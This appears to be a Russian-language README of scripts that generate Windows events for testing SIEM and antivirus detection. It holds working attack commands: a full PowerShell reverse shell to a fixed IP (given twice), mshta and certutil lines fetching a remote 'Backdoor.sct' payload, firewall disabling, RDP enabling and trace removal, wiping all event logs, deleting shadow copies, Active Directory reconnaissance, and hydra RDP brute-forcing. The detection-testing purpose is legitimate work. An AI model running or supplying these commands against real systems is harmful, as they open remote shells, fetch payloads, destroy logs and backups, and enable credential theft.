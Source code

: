 Скрипт для генерации событий о разных видах enumaration АРМов не в домене.
```bat
@echo off
# Enumarate user prive/group
whoami
whoami /priv
whoami /groups
# Enumarate users, groups
net user 
net localgroup 
# Enumarate firewall, AV solutions
sc query windefend
sc queryex type= service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
# Enumarate network
ipconfig
# Disable/enable firewall
netsh advfirewall set allprofiles state off
netsh advfirewall set allprofiles state on
# Turn on remote connection
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# Clear last rdp connection from registry
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
# Fast create and delete local user
net user test 12345 /add
net user test /delete
# Simulate delete home user directory 
mkdir C:\Users\test
rd /s /q "C:\Users\test"
```

Скрипт для генерации событий о реакции на малварь AV.
```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.98",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
mshta https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct
certutil.exe -urlcache -f https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct evil.com
```
Отключение AV. После отключения AV SIEM должна сгенерировать инцидент оботключении AV. Повторный запуск тестовой малвари для генерации событий о небезопасных утилитах из cmd. 
```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.98",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
mshta https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct
certutil.exe -urlcache -f https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct evil.com
# Можно запустить WinPEAS для генерации события о выгрузке в консоль чувствительной информации о системе.
```

Последняя часть демонстрации это заметание следов, например очистка журналов лога, удаление теневых копий.
```bat
FOR /F "delims=" %%I IN ('WEVTUTIL EL') DO (WEVTUTIL CL "%%I") 
vssadmin delete shadows /all
```

P.S.
Для тестирования учётки AD на АРМ должен быть установлен RSAT или импортировать Microsoft.ActiveDirectory.Management.dll в powershell (будет доступа часть командлетов связанных с AD), большая часть отработает с ошибками, что породит инциденты о разведке привилегий. Запуск с контроллера домена выдаст больше выхлопа.

```bat
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADGroup -Filter *
Get-ADGroup -Filter {Name -like "admin"} | select name, GroupScope
Get-ADDomain
Get-ADForest
Get-ADTrust -Filter *


Get-DomainPolicy
Get-NetDomain
Get-DomainSID
Get-NetDomainController
Get-NetUser
Get-NetComputer
Get-NetComputer -Ping
Get-NetGroup
Get-NetGroup *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO -ComputerName client-02.fanzy.com
Find-GPOLocation -UserName Aziz
Get-NetOU
Get-NetDomainTrust
Get-NetForest
Get-NetForest -Forest dampy.com
Get-NetForestDomain
Get-NetForestCatalog
Get-NetForestTrust
Find-LocalAdminAccess
Invoke-EnumerateLocalAdmin
Invoke-UserHunter
Invoke-UserHunter -CheckAccess
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
Get-ObjectAcl -SamAccountName labuser -ResolveGUIDs -RightsFilter "ResetPassword"
```

P.S.S.
С атакующего компа можно побрутить, посканить порты, позапускать psexec.

```bash
nmap -A -p- -T4 192.168.23.56(Блокируется фаерволом, но нет инцидента в винде)
nmap -Pn -p- -T4 192.168.23.56 (Нет инцидента о сборе инфы)

hydra rdp://192.168.23.56 -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt

psexec \\192.168.99.56 -s -u администратор -p 12345 cmd.exe и whoami
```
